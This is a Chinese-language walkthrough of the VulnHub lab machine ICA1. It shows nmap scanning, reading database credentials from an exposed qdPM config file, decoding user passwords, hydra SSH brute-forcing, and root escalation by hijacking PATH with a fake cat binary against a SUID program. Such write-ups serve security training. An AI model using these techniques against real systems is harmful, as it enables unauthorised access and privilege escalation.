

> 下载地址：[**Download (Mirror)**](https://download.vulnhub.com/ica/ica1.zip)
>

### 信息收集

#### 主机发现

```bash
nmap.exe  -sn 192.168.8.0/24
```


#### 端口扫描

```bash
 nmap -sS -p- 192.168.8.28
```


访问80端口，查找历史版本漏洞




找到`50176.txt`位置，查看


得出，需要访问：`http://192.168.8.28/core/config/databases.yml`d


> username: qdpmadmin
>
>  password: UcVQCMQk2STVeS6J


密码通过`base64解密`


> **用户名：**
>
> smith
>
> lucas 
>
> travis
>
> dexter
>
> meyer
>
> 
>
> **密码：**
>
> suRJAdGwLp8dy3rF
>
> 7ZwV4qtg42cmUXGX
>
> X7MQkP3W29fewHdC
>
> DJceVy98W28Y7wLg
>
> cqNnBWCByS2DuJSy
>
> 将密码和 用户保存在两个文件里

### 漏洞利用

#### SSH爆破

```bash
 hydra.exe -L .\user.txt -P .\passwd.txt ssh://192.168.8.28
```


#### suid提权

```bash
find / -perm -u=s 2>/dev/null
```

查看`/opt/get_access`发现乱码

使用`strings`提权其中 的字符串信息 

````bash
strings /opt/get_access
````

发现`cat`

给`cat`赋予执行权限

```
echo "/bin/bash" > /tmp/cat
export PATH=/tmp:$PATH
chmod +x /tmp/cat
```

提权

```bash
cd /opt
./get_access
```

拿到`root`密码

使用`su`命令字切换用户，提权成功~

